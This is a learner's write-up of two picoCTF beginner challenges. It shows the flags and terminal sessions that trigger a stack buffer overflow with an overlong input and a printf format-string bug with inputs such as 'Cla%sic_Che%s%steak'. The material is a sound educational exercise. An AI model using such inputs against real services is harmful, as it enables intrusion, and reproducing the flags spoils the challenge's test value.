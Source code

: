 # Challenge 1: buffer overflow 0
Challenge is asking to exploit the code by overflowing the buffer in the given C source file.

## Flag:
```
picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}
```

## My Approach:
First I started with entering a normal input, on entering the program gets ended. Them I checked the C source code provided to us, there I saw that buffer char array's maximum size is 16. Therefore, to overflow, input should be of greater size than the size of the array.

```
krishna@ULTRON:~$ nc saturn.picoctf.net 53582
Input: 123
The program will exit now

krishna@ULTRON:~$ nc saturn.picoctf.net 53582
Input: 0000000000000000
The program will exit now

krishna@ULTRON:~$
krishna@ULTRON:~$ nc saturn.picoctf.net 53582
Input: 0000000000000000000000000000000000000000
picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}
```

## My Learnings:
Got to know about stack overflows.


# Challenge 2: format string 0
The challenge says to use the knowledge of manipulating strings in the program to solve it and get the flag.

## Flag:
```
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_c8362f05}
```

## My Approach:
As the challenge says, formatting of strings required to solve the challenge, I directly went for the  format specifiers as it is the C source code. We have to print that the first customer is happy and now you can serve to next customer. So, I edited the print statement to customer is happy and changed the format specifier to int one for the next print statement. I did same for the last print statement too i.e. changed the format specifier and then connected the C source file to the terminal and extracted the flag.

```
 nc mimas.picoctf.net 63049
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: Gr%114d_Cheese
Gr                                                                                                           4202954_Cheese
Good job! Patrick is happy! Now can you serve the second customer?
Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)
Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
Enter your recommendation: Cla%sic_Che%s%steak
ClaCla%sic_Che%s%steakic_Che(null)
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_c8362f05}
```

## My Learnings:
Applied some known knowledge into the challenge about format specifiers and extracted the flag.


